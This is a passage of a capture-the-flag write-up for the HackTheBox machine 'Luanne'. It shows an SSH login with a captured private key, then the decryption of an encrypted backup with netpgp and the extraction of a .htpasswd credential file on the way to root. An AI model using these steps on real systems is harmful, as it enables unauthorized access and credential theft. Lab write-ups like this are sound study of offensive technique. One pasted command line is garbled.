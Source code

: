 
Now we can ssh into the machine.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/luanne]
└─$ ssh -i id_rsa r.michaels@10.10.10.218
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ 
```

## ROOT

On enumeration we find a .enc file in backups directory.
On googling how to decrypt .enc file in netbsd we find about `netpgp`

```bash
luanne$ ls                                                             
devel_backup-2020-09-16.tar.gz.enc
-09-16.tar.gz.enc --output /home/r.michaels/backup/backup.tar.gz                                                              <
/home/r.michaels/backup/backup.tar.gz: No such file or directory
/home/r.michaels/backup/backup.tar.gz: No such file or directory
luanne$ netpgp --decrypt /home/r.michaels/backups/devel_backup-2020-09-16.tar.gz.enc --output /tmp/devel_backup.tar.gz           
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
uid              RSA 2048-bit key <r.michaels@localhost>
luanne$ ls -la
total 20
drwxrwxrwt   2 root        wheel    48 Oct  3 15:12 .
drwxr-xr-x  21 root        wheel   512 Sep 16  2020 ..
-rw-------   1 r.michaels  wheel  1639 Oct  3 15:12 devel_backup.tar.gz
luanne$ tar -zxvf devel_backup.tar.gz
x devel-2020-09-16/
x devel-2020-09-16/www/
x devel-2020-09-16/webapi/
x devel-2020-09-16/webapi/weather.lua
x devel-2020-09-16/www/index.html
x devel-2020-09-16/www/.htpasswd
luanne$ cd www
ksh: cd: /tmp/www - No such file or directory
luanne$ ls -la
total 28
drwxrwxrwt   3 root        wheel    96 Oct  3 15:13 .
drwxr-xr-x  21 root        wheel   512 Sep 16  2020 ..
drwxr-x---   4 r.michaels  wheel    96 Sep 16  2020 devel-2020-09-16
-rw-------   1 r.michaels  wheel  1639 Oct  3 15:12 devel_backup.tar.gz
luanne$ cd devel-2020-09-16
luanne$ ls -la
total 32
drwxr-x---  4 r.michaels  wheel  96 Sep 16  2020 .
drwxrwxrwt  3 root        wheel  96 Oct  3 15:13 ..
drwxr-xr-x  2 r.michaels  wheel  48 Sep 16  2020 webapi
drwxr-xr-x  2 r.michaels  wheel  96 Sep 16  2020 www
luanne$ cd www
luanne$ ls -la
total 32
drwxr-xr-x  2 r.michaels  wheel   96 Sep 16  2020 .
drwxr-x---  4 r.michaels  wheel   96 Sep 16  2020 ..
-rw-r--r--  1 r.michaels  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--  1 r.michaels  wheel  378 Sep 16  2020 index.html
```
